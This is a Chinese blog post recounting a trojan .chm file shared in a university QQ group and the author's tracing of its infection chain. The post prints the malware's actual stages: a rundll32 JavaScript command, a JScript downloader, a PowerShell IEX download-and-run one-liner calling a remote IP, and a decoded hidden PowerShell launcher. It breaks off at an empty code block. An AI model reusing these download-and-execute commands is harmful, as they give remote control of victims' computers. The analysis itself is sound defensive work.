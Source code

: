 ```yaml
---
title: 记一次QQ群木马事件以开启一段安全之旅
categories:
  - 安全
tags:
  - 安全 渗透
date: 2016-06-27 17:21:53
---
```


## 事情的起因是这样的，在我皇家邮电大学即将举办CCTF之际，有个哥跑到大重邮的Linux的协会群放了一个`精彩图片合集.chm`的文件。并能够看到点击该文件的群里同学的桌面而且还有访问摄像头的功能。群里一篇慌乱，使得释放木马的哥开心的合不拢嘴。很多同学表示无能为力，我也点了一下那个文件，然后电脑卡了几秒之后然后就看到了那个文件里面并没有什么内容。这个时候我也慌了，从来没有感觉到原来安全这么的重要，于是我决心破解那个木马，并努力学习安全防御。



首先，中了该木马的电脑无一表现出出现多个PowerShell的进程，我打开任务管理器看到CPU占用最大的是`控制台窗口主进程`，可知木马肯定是通过命令行进行通信的。通过运行`wmic process where caption="rundll32.exe" get caption,commandline /value`可以看到一个通信的链接
```
Caption=rundll32.exe
CommandLine="C:\Windows\System32\rundll32.exe"
javascript:"\..\mshtml,RunHTMLApplication";document.write();
h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://github.com/maybeok007/address/raw/master/shouye",false);
try{h.Send();b=h.ResponseText;eval(b);}
catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```
可以猜测这里的这段代码应该是嵌入在那个chm文件里面的。
我猜大概的意思就是从github的一个仓库下载一个叫做shouye的代码然后运行它。我们在github获得那个叫做shouye的代码，大概如下：
```
h = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.SetTimeouts(0, 0, 0, 0);
try {
h.Open("GET","https://github.com/maybeok007/address/raw/master/cmd",false);
h.Send();
c = h.ResponseText;
r = new ActiveXObject("WScript.Shell").Run(c,0,true);
} catch(e1) {
p=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
p.SetTimeouts(0, 0, 0, 0);
p.Open("POST","https://github.com/maybeok007/address/raw/master/cmd",false);
p.Send("[Some thing wrong !! ]\n");
}
```
可以看到那个shouye的代码是为了打开同样链接下面的叫做cmd的代码然后运行它。我们再获得cmd的代码，大概如下：
`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://115.28.182.91:801/a'))"`
可以看到这里是调用`powershell`来从服务器来down代码，然后运行，这是最新一版的代码没有折腾的价值这里就不提了，值得一提的是之前一版的代码是[这样的](https://github.com/maybeok007/address/blob/58a7cdee3b86e7d3c077bf4f0190494c9f239f46/cmd)：
```
powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...省略...==

```
可以看出的是这是通过powershell 来执行某些指令只不过这些指令是通过某些方式加密的，我们猜测这是通过Base64进行加密的，通过Base64进行解密后我们可以得到:
```
if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-nop -w hidden -c $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String(''H4sI...省略...gAA''));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);
```
格式化之后是这样的：
```
```